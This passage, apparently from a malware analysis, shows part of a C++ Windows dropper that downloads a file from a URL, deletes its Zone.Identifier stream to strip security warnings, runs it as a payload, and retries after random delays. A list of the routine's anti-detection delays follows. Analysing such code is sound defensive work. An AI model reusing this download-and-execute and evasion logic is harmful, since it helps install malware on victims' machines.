 ```cpp
                // Read and write file data
                char buffer[0x103];
                DWORD bytesRead;
                while (InternetReadFile(hUrl, buffer, 
                       0x103, &bytesRead)) {
                    if (bytesRead == 0) break;
                    WriteFile(hFile, buffer, bytesRead, 
                             NULL, NULL);
                }
                CloseHandle(hFile);
                
                // Remove Zone.Identifier
                char zonePath[0x104];
                sprintf(zonePath, "%s:Zone.Identifier", 
                        targetPath);
                DeleteFileA(zonePath);
                
                // Execute payload
                if (VIBE::create_payload_process(targetPath)) {
                    Sleep(500);
                    if (VIBE::verify_payload_execution(
                        PathFindFileNameA(targetPath))) {
                        // Exit process if requested
                        if (exitAfterExecution) {
                            WSACleanup();
                            ExitProcess(0);
                        }
                    }
                }
            }
        }
        InternetCloseHandle(hUrl);
    }
    InternetCloseHandle(hInternet);
    
    // Second attempt using URLDownloadToFile if first failed
    if (!success) {
        Sleep(rand() % 0x7530 + 0x2710);
        // Similar process with URLDownloadToFile
        // ...
    }
    
    // Cleanup and exit
    VIBE::cleanup_download_resources(params);
    ExitThread(0);
}
```

**Anti-Detection Techniques**:
1. **Random Delays**:
   - Initial delay: 10-40 seconds (0x2710 to 0x9C40 ms)
   - Secondary delay if first attempt fails
   - 500ms delay after execution
